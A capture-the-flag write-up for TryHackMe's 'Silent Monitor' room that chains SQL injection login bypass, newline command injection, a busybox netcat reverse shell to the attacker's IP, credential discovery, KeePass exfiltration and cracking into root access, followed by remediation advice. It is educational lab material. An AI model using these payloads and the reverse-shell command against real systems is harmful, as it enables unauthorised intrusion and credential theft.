# Silent Monitor Write-up

**Platform**: TryHackMe <br>
**Room**: Silent Monitor (https://tryhackme.com/room/silent-monitor) <br>
**Category**: Network | Web Application <br>
**Target**: Linux <br>
**Techniques**: SQL Injection, Command Injection, Reverse Shell, Credential Disclosure, Password Cracking <br>
**Final Goal**: Root Access

## Executive Summary

This assessment evaluated the security of the **Silent Monitor** Network Operations Centre portal, an application used to monitor services and network infrastructure. The objective was to determine whether an unauthenticated attacker could identify weaknesses that would lead from unauthorised access to full system compromise.

The assessment identified several vulnerabilities, including SQL Injection, command injection, and insecure storage of credentials and backups. These weaknesses could be chained together to bypass authentication, execute commands on the server, obtain credentials for a system account, and recover a KeePass database containing the root user's password.

The assessment highlights the importance of securing authentication mechanisms, preventing user-controlled input from reaching system commands, and protecting sensitive credentials and backup files. Addressing these weaknesses would significantly reduce the likelihood of an attacker progressing from unauthorised application access to full system compromise.

## Overview

Silent Monitor simulates an internal Network Operations Centre environment where a monitoring portal exposes functionality for viewing system status, network segments, audit logs, and host health information.

The objective is to gain access to the monitoring portal, identify weaknesses in its functionality, move from the web application to the underlying system, and ultimately obtain root access.

The room demonstrates an attack chain involving:

- Service and web application enumeration
- Directory enumeration
- SQL Injection authentication bypass
- Command Injection
- Reverse shell execution
- Credential discovery
- SSH access
- KeePass database extraction
- Password hash cracking
- Root privilege escalation

### Attack Chain



---

## Initial Enumeration

The assessment begins by identifying the services exposed by the target host.

```bash
nmap -sV -sC -p- 10.113.186.252
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports.

The scan identifies two accessible services: SSH and HTTP running on port `5050`.



| Port | Service | Observation |
|------|---------|-------------|
| 22 | SSH | Provides a potential method of obtaining a stable shell if valid credentials are discovered. |
| 5050 | HTTP | Hosts the Network Operations Centre portal and represents the primary attack surface. |

Since the HTTP service exposes the monitoring portal, the next step is to enumerate the web application for additional resources and functionality.

## Web Application Enumeration

Directory enumeration is performed using Gobuster:

```bash
gobuster dir -u "http://10.113.186.252:5050" \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-r \
-x .php,.js,.html,.py,php.bak,.git,.env
```

The scan identifies an `/internal` endpoint.



Navigating to the main application at `http://10.113.186.252:5050` presents the Network Operations Centre portal.



The `/internal` endpoint provides a login page, making the authentication functionality a suitable target for further testing.

## SQL Injection Authentication Bypass

The login functionality is tested for SQL Injection using the following payload in the username field:

```text
' OR '1'='1'-- 
```

**SQL Injection** is a vulnerability that occurs when user-controlled input is incorporated into a database query without adequate protection. An attacker may manipulate the resulting SQL statement to alter its intended behaviour, potentially bypassing authentication or accessing database information.



The payload successfully bypasses the authentication mechanism and provides access to the dashboard as the `netops` Operator user.



The dashboard provides an overview of the monitored environment, including service status and network segments.

Scrolling further down reveals an **Audit Log** table containing several events.



Among the logged events are several SQL Injection attempts and a `HEALTH_CHECK` event containing the following input:

```text
127.0.0.1%0awhoami
```

This entry is particularly interesting because it appears to contain a **command injection** attempt.

**Command Injection** occurs when an application incorporates user-controlled input into an operating system command without properly separating or validating the input. If successful, an attacker may execute arbitrary commands with the privileges of the application.

The `HEALTH_CHECK` event therefore provides a useful indication that the application's host health functionality may be processing user input through a system command.

## Command Injection

The **Host Health** page provides an ICMP reachability probe designed to verify connectivity to a target host or IP address using the `ping` command.

The payload identified in the audit log is tested:

```text
127.0.0.1%0awhoami
```

The `%0a` sequence is the URL-encoded representation of a newline character (`\n`). If interpreted by the underlying command execution mechanism, the newline would separate the supplied IP address from the injected `whoami` command.

However, the request does not execute `whoami`. Instead, the application treats the `%0a` sequence literally and passes it to the `ping` command, resulting in an error.



Although the initial attempt fails, the behaviour provides a useful clue. The newline character may be interpreted differently when the request is constructed manually, so the request is intercepted and modified using Burp Suite.

Start Burp Suite and ensure the browser is configured to use the Burp Suite Proxy extension.

In Burp Suite, navigate to **Proxy** and enable **Intercept**.

Return to the browser and reload the Host Health page. The resulting POST request is intercepted by Burp Suite.



Right-click the intercepted request and send it to **Repeater**. Interception can then be disabled.

In Repeater, keep the `target` parameter set to: `127.0.0.1` and place the `whoami` command on a new line. Send the modified request and inspect the response.

The response contains:

```text
www-data
```



This confirms that arbitrary commands can be executed by manipulating the `target` parameter and that the commands execute with the privileges of the web server process, which is running as `www-data`.

The command injection therefore provides a direct path from access to the web application to command execution on the underlying Linux host.

## Obtaining a Reverse Shell

Rather than executing individual commands through the web application, a reverse shell can be established to obtain a more interactive session.

A **reverse shell** is a connection initiated by the compromised system back to an attacker's machine. Once established, it provides an interactive command shell through the connection and is generally more convenient for further enumeration than executing individual commands through a vulnerable application.

On the AttackBox, start a Netcat listener:

```bash
sudo nc -lvnp 4444
```



The command injection is then used to execute the following payload:

```bash
busybox nc 10.113.66.176 4444 -e sh
```

Replace `10.113.66.176` with the IP address of the AttackBox.



After sending the request, the page takes slightly longer to load and displays a message indicating that the process is running in the background.

The payload was obtained by testing different reverse shell variants from [revshells.com](https://www.revshells.com/).

The AttackBox listener receives the connection, providing an interactive shell on the target.

## Stabilising the Reverse Shell

The initial reverse shell is functional but does not provide a fully interactive terminal. The shell is therefore stabilised using Python and terminal configuration.

First, spawn a Bash shell through a pseudo-terminal:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Set the terminal type:

```bash
export TERM=xterm
```

Background the shell using:

```text
CTRL+Z
```

Then restore the terminal configuration and return the shell to the foreground:

```bash
stty raw -echo; fg
```

In another terminal, determine the terminal dimensions:

```bash
stty size
```

Note the returned number of rows and columns.

Finally, configure the reverse shell using:

```bash
stty rows x cols y
```

where `x` represents the number of rows and `y` represents the number of columns returned by `stty size`.



The reverse shell now provides a more usable interactive terminal for further enumeration.

## Credential Discovery

With a shell established as www-data, the next step is to inspect the files available in the current directory.

Listing the directory contents reveals a file named `secret.config`. The file immediately stands out as potentially sensitive.



Inspecting the file reveals credentials for the `sysadmin` user. Since SSH was identified during the initial Nmap scan, the recovered credentials can potentially be used to obtain a more stable shell as `sysadmin`.

## SSH Access

From a new AttackBox terminal, connect to the target using the recovered credentials:

```bash
ssh sysadmin@10.113.186.252
```

After successfully authenticating as `sysadmin`, listing the contents of the current directory reveals the `user.txt` flag.



The directory also contains a `backups` directory. Listing its contents reveals a KeePass database and a README file.



The KeePass database may contain additional credentials, making it a potential source of further privilege escalation information.

## KeePass Database Extraction

The KeePass database is transferred from the target to the AttackBox for offline analysis. A Python HTTP server is started on the target from the directory containing the database:

```bash
python3 -m http.server
```

This starts a web server on port `8000`.



From a terminal on the AttackBox, download the database using:

```bash
wget http://10.113.186.252:8000/infrastructure.kdbx
```



The downloaded file is a KeePass database using the `.kdbx` format.

## KeePass Password Cracking

The password protecting the KeePass database can be tested offline by first extracting a crackable password hash. `keepass2john` is used to extract the relevant hash:

```bash
keepass2john infrastructure.kdbx > infra.hash
```

John the Ripper is then used with the `rockyou.txt` wordlist:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt infra.hash
```

The password is successfully recovered.



The recovered password can now be used to open the KeePass database.

## Root Credential Discovery

The AttackBox has KeePass installed, allowing the recovered database to be opened locally.

Open `infrastructure.kdbx` and provide the recovered password. The database contains a **Root User** record with credentials for the root account.



The recovered credentials provide the final step required to obtain administrative access to the target.

## Root Access

Return to the existing SSH session as `sysadmin` and use the recovered password to switch to the root account:

```bash
su root
```

Enter the password obtained from the KeePass database when prompted.



The command succeeds, providing a root shell on the target. Navigate to the `/root` directory. The final flag is located in `/root/root.txt`.



Reading the file confirms full root access to the target.

# Conclusion

This assessment demonstrated how several weaknesses across the web application and underlying Linux system could be chained together to achieve full system compromise.

The attack began with a SQL Injection authentication bypass that provided access to the Network Operations Centre dashboard. An audit log entry then provided a clue towards a command injection vulnerability in the Host Health functionality. Exploiting this vulnerability resulted in command execution as `www-data` and provided an initial reverse shell.

Local enumeration revealed credentials stored in a configuration file, which allowed SSH access as `sysadmin`. Further enumeration uncovered a KeePass database in a backup directory. After transferring and cracking the database, a stored root credential was recovered and used to obtain full administrative access to the system.

The room highlights the importance of securing both application functionality and sensitive information stored on the underlying host. An authentication bypass and command injection vulnerability provided the initial access, while exposed credentials and an inadequately protected backup database allowed the compromise to progress from a web application to complete system access.

---

# Remediation Recommendations

The compromise of the Silent Monitor environment was achieved by chaining several independent weaknesses. Addressing the following issues would significantly reduce the application's attack surface and limit the impact of a successful compromise.

| Finding | Recommendation |
|---------|----------------|
| **SQL Injection** | Use parameterised queries or prepared statements for all database interactions. User-supplied input should never be incorporated directly into SQL queries. |
| **Command Injection** | Avoid passing user-controlled input directly to system commands. Where command execution is required, validate input against a strict allowlist and use safe APIs that do not invoke a shell. |
| **Sensitive Configuration Files** | Do not store plaintext credentials in configuration files accessible to application users. Store secrets securely and apply appropriate filesystem permissions. |
| **Credential Exposure** | Avoid exposing valid account credentials through application files or other locations accessible to lower-privileged users. Exposed credentials should be rotated immediately. |
| **Sensitive Backup Files** | Store backup files containing sensitive information in locations inaccessible to unprivileged users. Remove unnecessary backups from production systems and apply appropriate filesystem permissions. |
| **Weak KeePass Password** | Protect password databases with strong, unique master passwords that are resistant to dictionary attacks. |
